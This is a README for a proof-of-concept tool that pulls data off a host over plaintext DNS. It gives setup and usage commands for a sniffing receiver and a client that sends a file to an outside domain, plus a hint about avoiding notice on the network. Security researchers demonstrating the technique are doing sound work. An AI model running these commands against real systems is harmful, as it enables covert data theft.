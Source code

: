 # Dns Exfiltrator

A proof of concept to demonstrate extracting data from a host endpoint, over the network, using plaintext DNS

![image info](diagram.png)

This proof of concept is run on two separate systems, the `DNS Exfilatrator`, and the receiver, noted as the `Authoritative DNS Server`

### Create virtual environment in linux

`python3 -m venv .venv`

Activate the virtual environment
`source .venv/bin/activate`

once in virtual environment...

Install the requirements. Server side makes use of scapy
```pip3 install -r requirements.txt```

If a module not found error is presented when running the `receiver.py`, then repeat the installation as `sudo`


### Start the server
(represented as "Authoritative DNS Server" in the diagram)

`python3 receiver.py --help` to get a help dialog

run as sudo
`sudo python3 receiver.py —-apexdomain apexdomain.com. -i ens5`

The receiver matches data coming in based on the apex domain. This should be specified with something like `example.com.` here, and `example.com` when running from the exfiltrator.


### For the client side (Dns_extractor)



In a separate terminal, send some data
`python3 exfiltrator.py -f smiley2.gif -d 1.1.1.1 -a example.com`



#### A note on zone delegations
The DNS exfiltrator can send its DNS query to any forwarder/resolver. If you specify any generic resolver and/or forwarder, that is where the query will be sent. If you do not setup a zone delegation for your domain, then the resolver will never find your proper DNS server. To get around this, you can specify explicitly with the `-d <receiver IP>` on the receiver end. But, it might look weird on a network if only one client is using a different DNS resolver.




#### Makes use of 
DNSPython tool: https://github.com/rthalley/dnspython
docs: https://dnspython.readthedocs.io/en/stable/installation.html
Scapy: https://scapy.net/